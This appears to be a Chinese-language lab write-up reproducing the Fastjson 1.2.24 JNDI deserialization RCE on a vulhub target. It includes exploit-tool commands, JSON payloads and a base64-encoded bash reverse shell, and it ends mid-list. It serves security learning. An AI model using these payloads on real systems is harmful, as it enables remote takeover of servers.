









# Fastjson1.2.24
## 环境搭建

- vulhub搭建

- 为防止虚拟机网络连接出问题，直接选择物理机中拉取镜像传到虚拟机中

## 漏洞原理
Fastjson允许攻击者通过JSON指定任意类，攻击者指定了一个危险类，这个类在初始化时会发起JNDI请求，去加载攻击者控制的远程恶意代码


## 漏洞复现
### 环节一

>@type允许指定任意类

### 环节二

>JdbcRowSetImpl类可以触发JNDI解析查询服务

### 环节三

>JNDI可以返回Reference指向恶意类

### 环节四

>当Fastjson解析到JSON中的 "autoCommit":true 时，会调用 JdbcRowSetImpl 对象的 setAutoCommit(true) 方法

### 完整攻击
#### RCE创建文件

**使用JNDI-Injection-Exploit工具开启服务**

` java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/testfastjson.txt" -A 192.168.162.1`



**payload**

```
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://192.168.162.1:1389/ymuarp",
        "autoCommit":true
    }
}
```

*解析*
1. dataSourceName是JdbcRowSetImpl的属性，用于指定JNDI的数据源名称，对应setdataSourceName方法

>本质是调用 setDataSourceName() 方法，把攻击者的 RMI 服务地址注入到对象中

2. autoCommit是jdbcRowSetImpl的属性，对应 setAutoCommit(boolean autoCommit) 方法

>setAutoCommit(true)方法会主动调用connect()方法，connect()方法又会执行Context.lookup()从而触发JNDI查询

**注入payload**



**验证**





RMI服务器和HTTP服务器成功收到请求

#### RCE反弹shell

**JNDI-Injection-Exploit启动服务**

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2Mi4xMDAvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" -A 192.168.162.1



**payload**

```
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://192.168.162.1:1389/3tsfsm",
        "autoCommit":true
    }
}
```

**攻击机开启监听4444端口**



**注入payload**



**验证**



成功获得反弹shell

## 攻击链
```
@type指定加载JdbcRowSetImpl类
|
dataSource设置数据源为恶意服务器地址
|
autoCommit设置为true
|
自动调用Connect()方法
|
自动执行Context.lookup()触发JNDI查询
|
按照数据源地址查询
|
访问返回的Reference地址
|
加载恶意类
```

## 总结

>@type让Fastjson可以实例化任意类 → JdbcRowSetImpl的setAutoCommit会触发JNDI查询 → JNDI查询可以被攻击者劫持 → 远程加载并执行恶意类 → 服务器被控制

## 问题与解决
1. 虚拟机中的靶场本地无法访问

   - 原因：Docker 的转发规则需要 FORWARD 链放行，之前被 DROP 了
   
   - 解决方法：修改防火墙的转发规则，默认都转发iptables -P FORWARD ACCEPT


1. 指定要加载的类为`java.lang.Class`是 Java 里所有类的"元类"，用来描述类本身

2. 给`java.lang.Class`对象的val 属性赋值的。在 Java 里，java.lang.Class 类有一个 forName(String className) 方法，作用是加载指定的类。

3. 再次加载JdbcRowSetImpl类，因为之前加载过，所以这次直接从缓存中加载，绕过安全检查

>因为是在 a 对象内加载，所以这个操作会先执行，让 Fastjson 把 JdbcRowSetImpl 加入它的内部缓存。这为后面对象 b 中的操作扫清了障碍——当 b 再引用 JdbcRowSetImpl 时，Fastjson 会直接从缓存里拿，而不会再去做安全检查。

4.